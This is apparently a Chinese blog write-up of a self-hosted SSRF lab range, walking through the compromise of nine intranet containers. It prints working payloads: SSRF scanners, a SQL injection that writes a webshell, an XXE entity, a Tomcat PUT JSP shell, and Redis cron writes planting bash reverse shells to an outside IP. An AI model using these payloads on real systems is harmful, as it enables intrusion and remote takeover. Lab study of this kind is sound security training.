+++
title = "国光靶场ssrf打穿内网"
slug = "guoguang-range-ssrf-intranet-penetration"
description = "国光是神"
date = "2025-04-02T14:18:15"
lastmod = "2025-04-02T14:18:15"
image = ""
license = ""
categories = ["复现"]
tags = ["ssrf", "内网渗透"]
+++

之前看过那篇文章所以非常想自己试试手，拓扑图如下


看着这么多，我们利用源码制作好docker之后放到dockerhub就可以只利用一台机器完成靶场搭建，每构建好一个需要推到dockerhub，运行以下命令

```
docker commit 669053d5f83a baozongwi/ssrf-web2:latest

docker login -u baozongwi
# 登录之后就可以push上去了

docker push baozongwi/ssrf-web2:latest

# 用于清空镜像和容器
docker rm -f $(docker ps -aq) && docker rmi -f $(docker images -q)
```

但是弄到sqli那台机器之后168师傅回复我了，他居然还存了compose，不过这里也学会怎么往dockerhub上面pull了

```yaml
networks:
  ssrf_v:
    ipam:
      config:
        - subnet: 192.168.100.0/24  # 改为 192.168.100.0/24，避免冲突
          gateway: 192.168.100.1

services:
  ssrfweb1:
    image: selectarget/ssrf_web:v1
    ports:
    - 8090:80
    networks:
      ssrf_v:
        ipv4_address: 192.168.100.21

  ssrfweb2:
    image: selectarget/ssrf_codesec:v2
    networks:
      ssrf_v:
        ipv4_address: 192.168.100.22

  ssrfweb3:
    image: selectarget/ssrf_sql:v3
    networks:
      ssrf_v:
        ipv4_address: 192.168.100.23

  ssrfweb4:
    image: selectarget/ssrf_commandexec:v4
    networks:
      ssrf_v:
        ipv4_address: 192.168.100.24

  ssrfweb5:
    image: selectarget/ssrf_xxe:v5
    networks:
      ssrf_v:
        ipv4_address: 192.168.100.25

  ssrfweb6:
    image: selectarget/ssrf_tomcat:v6
    networks:
      ssrf_v:
        ipv4_address: 192.168.100.26

  ssrfweb7:
    image: selectarget/ssrf_redisunauth:v7
    networks:
      ssrf_v:
        ipv4_address: 192.168.100.27

  ssrfweb8:
    image: selectarget/ssrf_redisauth:v8
    networks:
      ssrf_v:
        ipv4_address: 192.168.100.28

  ssrfweb9:
    image: selectarget/ssrf_mysql:v9
    networks:
      ssrf_v:
        ipv4_address: 192.168.100.29
```

但是肯定是要改网络的，每个人的网络都是不一样的，并且是9台机器



## 192.168.100.21外网SSRF

进入网站，看到是个爬虫网页，随便输入一个网页发现如下



基本可以确诊是SSRF，我们试试`file`读取文件，发现成功

```
file:///etc/passwd
```

打算读取源码发现`file://index.php`没有成功但是可以从根目录过去读`file:///var/www/html/index.php`得到结果

```php
 <?php
    error_reporting(0);
    function curl($url){
      $ch = curl_init();
      curl_setopt($ch, CURLOPT_URL, $url);
      curl_setopt($ch, CURLOPT_HEADER, 0);
      curl_exec($ch);
      curl_close($ch);
    }
  ?>
```

非常典型的SSRF漏洞代码，顺便读取一个flag，`file:///var/www/html/flag`这台机器基本就没有用了，我们就要选择深入内网，还是做基本的信息收集，但是这里不能RCE，只能利用文件读取，所以我们先读取一下`hosts`得到这台机器的内网IP

```
file:///etc/hosts

#############################################
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
192.168.100.21	eb5b2908723b
```

使用dict协议进行爆破路由，超时就是未存活的IP，但是这种未超时又太过明显，如图



这种用bp应该是筛选不出来的，所以只能写个脚本，刚开始写的时候没加多线程，发现太慢了，后面还是直接加了一个多线程，同时也发现我试了几种方法发现最后都会有漏扫或者是扫错的情况，这个问题后面再深究，那就只能慢慢等一下了

```python
import requests
import time

alive_ips=[]

url="http://156.238.233.93:8080/"
for i in range(1,255):
    ip="172.72.0."+str(i)
    try:
        r=requests.post(url,data={"url":f"dict://{ip}/"},timeout=1.5)
        print(ip+"存活")
        alive_ips.append(ip)
    except requests.exceptions.Timeout:
        print(ip+"未存活")
    time.sleep(0.3)

for idx, ip in enumerate(alive_ips, 1):
    print(f"{idx}. {ip}存活")

```

得到以下信息，

```
1. 192.168.100.1存活
2. 192.168.100.21存活
3. 192.168.100.22存活
4. 192.168.100.23存活
5. 192.168.100.24存活
6. 192.168.100.25存活
7. 192.168.100.26存活
8. 192.168.100.27存活
9. 192.168.100.28存活
10. 192.168.100.29存活
```

`1`这台机器没有，所以就是九台机器，继续扫描一下常用端口，把脚本改改

```python
import requests
import time

alive_ips = [
    "192.168.100.21",
    "192.168.100.22",
    "192.168.100.23",
    "192.168.100.24",
    "192.168.100.25",
    "192.168.100.26",
    "192.168.100.27",
    "192.168.100.28",
    "192.168.100.29",
]

url = "http://156.238.233.93:8090/"
top_ports = [
    21, 22, 23, 25, 80, 110, 135, 139, 143,
    443, 445, 993, 995, 1433, 1521, 3306, 3389,
    5432, 5900, 6379, 8000, 8080, 8443,
]

results = []

for ip in alive_ips.copy():
    for port in top_ports:
        target = f"{ip}:{port}"
        r = requests.post(
            url,
            data={"url": f"dict://{target}/"},
        )
        if "HTTP/1.1" in r.text:
            print(f"[+] {target} 服务存活")
            results.append(target)
        else:
            print(f"[+] {target} 服务不存活")
        time.sleep(0.3)

# 打印最终结果
print("\n======= 存活服务列表 =======")
for idx, result in enumerate(results, 1):
    print(f"{idx}. {result}")

```

但是这个脚本探测不出来部分端口，手动一下就好了。不知道为什么会超时加载不出来

```
1. 192.168.100.21:80
2. 192.168.100.22:80
3. 192.168.100.23:80
4. 192.168.100.24:80
5. 192.168.100.25:80
6. 192.168.100.26:8080
7. 192.168.100.27:6379
8. 192.168.100.28:6379\80
9. 192.168.100.29:3306
```

## 192.168.100.22RCE 

扫描一下发现

```
http://192.168.100.22/shell.php?1
http://192.168.100.22/phpinfo.php?1
```

```php
<?php
highlight_file(__FILE__); 
error_reporting(0);

system($_GET['cmd']);
?>
```

可以随便RCE了

```
http://192.168.100.22/shell.php?cmd=ls
http://192.168.100.22/shell.php?cmd=cat%20flag
http://192.168.100.22/shell.php?cmd=ls%20/
http://192.168.100.22/shell.php?cmd=cat%20/etc/hosts
```

可以查到hosts说明已经拿下这台机器

## 192.168.100.23sqli

```
http://192.168.100.23/?id=1
```

我一看怎么什么都没有，往下拉就看到了



```
http://192.168.100.23/?id=-1'union%20select%201,2,3--+
http://192.168.100.23/?id=-1'union%20select%201,2,3,4--+

http://192.168.100.23/?id=-1'union%20select%201,2,3,load_file('/etc/passwd')--+
http://192.168.100.23/?id=-1'union%20select%201,2,3,load_file('/etc/hosts')--+
##############################################
	127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
192.168.100.23	213c410b2987
```

有权限，直接写个马进去

```
http://192.168.100.23/?id=-1'union%20select%201,2,3,'<?php%20system($_GET[1]);'%20into%20outfile%20'/var/www/html/2.php'--+

http://192.168.100.23/2.php?1=ls
```

这台机器就被拿下了

## 192.168.100.24RCE

这里需要命令执行

```
http://192.168.100.24/
```



很经典的截断RCE

```
http://192.168.100.24/?ip=127.0.0.1;ls
```

发现失败了，可能是POST传参，我们刚才已经拿到shell了，所以问题不大

```
http://192.168.100.23/2.php?1=curl http://192.168.100.24/ -d 'ip=127.0.0.1;ls' -X POST
```

但是好像没有curl这台机器上面，所以还是得用SSRF的打法，将整个数据包选中然后url二次编码(不是二重编码)拼接到gopher协议后面，其中需要注意的点，

- `Accept-Encoding: gzip, deflate`把这行删除，不然会出现乱码，因为被两次gzip编码了，
- 需要抓一个正常的POST包，然后自己把`host`等类似的东西改掉，然后全选进行全编码(Convert selection->URL->URL-encode all characters )

但是一直不好打，没打成功，那别怪我了，直接搭建内网代理，使用proxifier进行全局代理，来抓包就很简单了

```
./linux_x64_admin -l 1234 -s 123

./linux_x64_agent -c 27.25.151.48:1234 -s 123 --reconnect 8

use 0 
socks 5555
```





成功RCE，发现能够读取`hosts`这台机器拿下，因为每个人的数据包都不一样，所以我也不放出来了

## 192.168.100.25XXE

用户登录用xml文档解析的直接打XXE，

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
    <username>&xxe;</username>
    <password>123</password>
</user>
```





## 192.168.100.26Tomcat/8.5.19

上传文件getshell即可，没错就是那个PUT上传文件的

```http
PUT /a.jsp/ HTTP/1.1
Host: 192.168.100.26:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 308

<%
if("023".equals(request.getParameter("pwd"))){
	java.io.InputStream in =Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
	int a = -1;
	byte[] b = new byte[2048];
	out.print("<pre>");
	while((a=in.read(b))!=-1){
		out.println(new String(b));
 	}
	out.print("</pre>");
 }
%>
```

一样的打法，写入shell





## 192.168.100.27redis未授权

系统没有 Web 服务（无法写 Shell），无 SSH 公私钥认证（无法写公钥），所以打算定时任务弹shell

```
# 清空 key
dict://192.168.100.27:6379/flushall

# 设置要操作的路径为定时任务目录
dict://192.168.100.27:6379/config set dir /var/spool/cron/

# 在定时任务目录下创建 root 的定时任务文件
dict://192.168.100.27:6379/config set dbfilename root

# 写入 Bash 反弹 shell 的 payload
dict://192.168.100.27:6379/set x "\n* * * * * /bin/bash -i >%26 /dev/tcp/27.25.151.48/4444 0>%261\n"

# 保存上述操作
dict://192.168.100.27:6379/save
```

一定是在bp依次运行，网页在`save`时候会卡掉，就不能成功



这台机器也直接拿下

## 192.168.100.28redis授权

```php
<?php 
error_reporting(0);
highlight_file(__FILE__);
if (isset($_GET['file'])) {
    include($_GET['file']); 
} else {
    echo "easy lfi";
}
?>
```

80端口可以包含文件，直接拿到密码

```
/etc/redis.conf
/etc/redis/redis.conf
/usr/local/redis/etc/redis.conf
/opt/redis/ect/redis.conf
```



由于dict只能一条命令一条命令的慢慢来，所以我们还是一次性写出来然后用gopher协议

```
auth P@ssw0rd
flushall
config set dir /var/spool/cron/
config set dbfilename root
set x "\n* * * * * /bin/bash -i >& /dev/tcp/27.25.151.48/6666 0>&1\n"
save
quit
```

进行两次url编码，其中最细节的就是`&`符号，我最开始还是和dict协议一样写的`%26`但是后来进入docker发现了问题

